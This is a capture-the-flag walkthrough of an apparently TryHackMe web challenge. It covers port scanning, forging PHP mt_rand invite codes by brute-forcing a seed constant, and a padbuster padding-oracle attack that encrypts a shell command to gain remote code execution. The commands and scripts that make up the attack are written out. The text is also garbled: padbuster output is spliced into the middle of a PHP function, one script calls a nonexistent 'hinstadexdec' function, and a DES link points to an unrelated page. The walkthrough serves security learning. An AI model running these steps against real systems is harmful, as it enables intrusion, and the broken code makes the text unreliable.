



# Decryptify - Full Writeup and Walkthrough
## Challenge Description
Start the VM by clicking the Start Machine button at the top right of the task. You can complete the challenge by connecting through the VPN or the AttackBox, which contains all the essential tools.

Can you decrypt the secrets and get RCE on the system? 

## Table of Contents
- [Walkthrough](#Walkthrough)
    - [Exploring The Application](#Exploring-The-Application)
    - [The API.js file](#The-APIjs-file)
    - [API documentation, a dead end?](#API-documentation-a-dead-end)
    - [Enumerating with ffuf: there's hope!](#Enumerating-with-ffuftheres-hope)
    - [Accessing the user account, first flag!](#Accessing-the-user-account-first-flag)
    - [The real decryption problem](#The-real-decryption-problem)
    - [Can you hear that? It's an oracle talking! (second flag)](#Can-you-hear-that-Its-an-oracle-talking-second-flag)
- [What did we learn? (Spoiler: a lot!)](#What-did-we-learn-Spoiler-a-lot)
- [Acknowledgements and resources](#Acknowledgements-and-resources)
---

## Walkthrough

### Exploring The Application
Alright Amici mei, let's dive in! 
<br>
The first thing I did, as always, is running nmap on the target machine. Weirdly enough, the only thing I found was an ssh service running on port 22, meaning that just googling ```http://MACHINE_IP``` won't do anything. <br><br>
After banging my head for a while I decided to scan <b>ALL</b> the ports with 
```bash 
nmap [MACHINE_IP]1-65535 -T4
``` 
to see if I could find anything useful. After an espresso or two, it finally popped up: an http server running on port 1337 (why THM?). After going to ```http://MACHINE_IP:1337``` we can finally start the challenge.

### The API.js file
Once we land on the page, we can see two login forms, one that requires a username and an invite code, and the other requires an email instead of the username. Another interesting thing was the API documentation page, which you can find in the footer of the login page, but unfortunately this is password protected. 
<br><br>
After digging into the source code of the page I found an interesting file, API.js.
<br><br>
The code in this file seems obfuscated, but since we don't really have anything else to work with it is worth a shot to make sense of it!
<br><br>
After looking at the code, I decided to do what any sane person would, put a few console.log statement into the file (or I should say, a copy of it I saved on my computer) and then ran it with ```node``` 
<br>
In particular, at the end a constant c is initialized by calling a bunch of functions, so I decided to print that by adding the following line to the end of the script:
```javascript
console.log(c)
```
This results in the following string:
```javascript
"H7gY2tJ9wQzD4rS1"
```
For fun, I tried plugging it into the API login and what do you know, it was the password!

### API documentation, a dead end?
The first thing we see once in the api.php page is some php code that, most likely, is being used in the backend to generate the invite_code for a certain email. Here it is for your convenience:
```php
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1349

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 4

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1324    N/A
2 **    255     400     1411    N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

    return $seed_value;
}
     $seed_value = calculate_seed_value($email, $constant_value);
     mt_srand($seed_value);
     $random = mt_rand();
     $invite_code = base64_encode($random);
```
It looks like we can forge our own invite code! This is because ```mt_srand()``` will always output the same number for a given seed. To get the seed we need a constant value and... an email?
<br>
My first instinct was to use a random email, but apparently it needs to be registered first...

### Enumerating with ffuf: there's hope!
After multiple espressos I remembered what my mamma always used to say
> <i>"If you get stuck, try to enumerate the stack"  </i>

Thanks mamma! Let's see if ffuf brings anything useful by executing the following command:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://[MACHINE_IP]:1337/FUZZ
```
Once done, we can see a very interesting endpoint: ```/log```
<br>
On this page, we can see an ```app.log``` file, which once clicked shows the following information:
```
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```
Now not only do we have a fresh email to hack, but we can also use the token for ```alpha@fake.thm``` to bruteforce the constant needed (```$constant_value```) in the php code mentioned before. Let's get forging!

### Accessing the user account, first flag!
To forge our token for ```hello@fake.thm```, we first need to find what the ```$constant_value``` variable is. To do this, I am going to change a bit the script in the API documentation and try to bruteforce it using the token we already have, the one for ```alpha@fake.thm```.

Here is the php code I used:
```php
<?php

$email = "alpha@fake.thm"; 
$constant_value = 0;

for ($constant_value = 0; $constant_value < 100000; $constant_value++) {
    $seed_value = hexdec(strlen($email) + $constant_value + hexdec(substr($email, 0, 8)));

    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);

    if ($invite_code == "MTM0ODMzNzEyMg==") {
        echo $constant_value;
    } 
}

?>

```
Now you might be wondering, why did I choose 100000 instead of something smaller? 
<br>
Well Amico mio, turns out the constant value is 99999, so if you have a potato pc go get another espresso (or take the value from me, I am not gonna judge).

Armed with both constant and email, it is finally time to create our own invite code to this party! Here is another php script to do so:
```php
<?php

function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hinstadexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}
     $seed_value = calculate_seed_value("hello@fake.thm", 99999);
     mt_srand($seed_value);
     $random = mt_rand();
     $invite_code = base64_encode($random);
     echo $invite_code;
?>
```
The result of this program is ```NDYxNTg5ODkx``` which, if used on the second login form alongside the ```hello@fake.thm``` email, gives access to the ```/dashboard.php``` page and our first flag!

### The real decryption problem
Now that we are on the dashboard, there doesn't seem to be anything useful at first glance. Here is a picture:
 
That admin user is really goloso, but unfortunately it doesn't seem like we can access it the same way we did with our normal user. 
<br><br>
When dealing with web challenges, my personal last resort when I am really stuck is just to check the HTML, it usually doesn't lead to anything so... WOAH wha is this?!
```HTML
<form method="get">
    <input type="hidden" name="date" value= "/RozKXrvotl7sbZYeqduzy8D3CpBUPTbj/OuQVvAI+o=">
```
<i> Quick note, the value you see here changes any time you refresh the page, for this reason you will see different values in the rest of the writeup </i>
<br><br>
After removing the ```hidden``` type, we can see a form right where the copyright year is in the footer. My first instinct upon seeing this was to send a random value, which returned the following error in place of the ```2025``` in the footer:
```
Padding error: error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length
```
So here is why it is called Decryptify! I have a strong feeling that decrypting this will give us the key to victory. After some other testing, I found out that by changing the value a bit, another error can be seen at the top of the page:
```
Warning: openssl_decrypt(): IV passed is only 4 bytes long, cipher expects an IV of precisely 8 bytes, padding with \0
```
That's it! I know exactly what vulnerability this is, and I have a special tool just for that!

### Can you hear that? It's an oracle talking! (second flag)
The vulnerability I am about to use is called <b>padding oracle</b>, and it abuses the fact that the backend is a little too chatty with the frontend, giving us key information to lockpick that ciphertext. If you wanna learn more about this vulnerability, go check out the last two sections of this writeup. This one will only cover the "how", but still get that espresso ready!

To check if this is actually a padding oracle (and not Nonna's lasagna giving me allucinations) we can use a tool called ```padbuster```, here is the command to use to decrypt the value:
```bash
padbuster "http://[MACHINE_IP]:1337/dashboard.php?date=[ENCRYPTED_VALUE]" "[ENCRYPTED_VALUE]" 8 -encoding 0 -cookies "PHPSESSID=[YOUR_COOKIE]; role=[YOUR_COOKIE]"
```
Note that you can get the cookies by just looking at your browser's network tab or with tools like burp suite. Anyways, here is what padbuster will spit out first:
```
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1349

INFO: Starting PadBuster Decrypt Mode
[+] Number of Blocks: 3

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1324    N/A
2 **    255     400     1411    N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2
```
The fact that padbuster found a response signature means that this is indeed a padding oracle vulnerability! Naturally, since we are exploiting the information the website is giving with its error messages, we want to select the option with the status 400, as that indicates a bad request (i.e. error messages to abuse).

After letting it run for a bit (and it will run for a bit), we will finally see the plaintext of our encrypted string, which is just:
```bash
date +%Y
```
If you are a little rusty on linux commands, that returns the current year of the machine, which at the time of writing is 2025. This means that the backend executes whichever command we send with that form, provided that it is encrypted correctly. Here is the RCE that was mentioned in the prompt!

Lucky for us, padbuster also has an encrypt function, which we can use to send our own payload. Since we know the location of the second flag (the second question mentions it is in ```/home/ubuntu```), we can use the following command:
```bash
cat /home/ubuntu/flag.txt
```
Additionally, we will need the ciphertext from the output we got on the decrypt from padbuster. In particular, we want the ciphertext in hexadecimal of the block containing the ```date``` command. This is <b>not</b> essential but it will make padbuster run faster. The final command will look something like this: 
```bash
padbuster "http://10.10.125.169:1337/dashboard.php?date=[ENCRYPTED_DATE_COMMAND]" \
"[ENCRYPTED_DATE_COMMAND]" 8 -encoding 0 \
-plaintext "cat /home/ubuntu/flag.txt" \
-ciphertext [CIPHER_FROM_DECRYPT_OUTPUT] \
-cookies "PHPSESSID=[YOUR_COOKIE]"
```
Once we run it, another prompt is going to appear to ask us which response signature we need to consider, just like when we decrypted. Choose the option that padbuster recommends, which is usually the second one. And now, since you probably ran out of espresso, go grab a cappuccino. This will take a while to fully run.

Once it is over, we will get a fresh ciphertext already encoded in base64. This is now ready to be sent in that hidden form. If you did everything correctly, you should see the flag popping up where the footer is!

## What did we learn? (Spoiler, a lot!)
I have to admit, this was quite the journey, and as such there are a few takeaways to learn:
- <b>Backend and Frontend should be used properly:</b> the first problem with this app was that a file, namely API.js, that was supposed to be on the backend, was on the frontend instead. Allowing us to bypass the authentication for the API documentation
- <b>Keep your logs in your pants:</b> logs should be safely stored on your backend and not be visible by the user. As we saw earlier, this can lead to information leaks.
- <b>Don't be too specific with your errors:</b> probably the biggest one for this challenge, errors should not reveal to the end user how your whole backend works. If it does, threat actors (like us) can use it to understand the logic behind that code, and then break it.

The main vulnerability in this program was (arguably) the padding oracle attack. But how does this work?

Padding Oracle attacks exploit a loose-lipped encryption system that tells us when we mess up. Normally, when a server decrypts a message, it removes padding (extra bytes added to make the message fit into a block). If the padding is incorrect, a properly configured system should give a generic error. But some systems? Oh, no. They spill the beans by throwing a specific padding error. And that, my friend, gives us the power to manipulate encrypted data bit by bit—until we completely break it.





Let’s visualize it: Imagine a message split into blocks like [C1] [C2] [C3], where each block is encrypted separately but depends on the previous one (because CBC mode chains them together). Now, let’s say we only have the ciphertext (not the key). If we change just the last byte of [C2] and send it to the server, it decrypts it and checks the padding. If the padding is valid, we know our guess was correct. If not? We tweak it again and keep adjusting byte by byte, using the errors as a guide until we decrypt the entire block. Rinse and repeat, and suddenly we have full decryption and even the ability to encrypt our own data (which is exactly what we did with PadBuster!).

## Acknowledgements and resources
Huge grazie to Brian Holyfield for developing padbuster, such an amazing and cool tool! Check out more about it [here](https://cyber.aon.com/aon_cyber_labs/automated-padding-oracle-attacks-with-padbuster/)

If you are still interested in cryptography and padding oracles check out these resources:
- [Introduction to DES](https://cyber.aon.com/aon_cyber_labs/automated-padding-oracle-attacks-with-padbuster/)
- [Introduction to AES](https://www.geeksforgeeks.org/advanced-encryption-standard-aes/)
- [Padding oracle in depth](https://www.nccgroup.com/us/research-blog/cryptopals-exploiting-cbc-padding-oracles/)

That's it for this writeup Amici miei! Remember to stay caffainated and that the Gabibo is always watching 👁️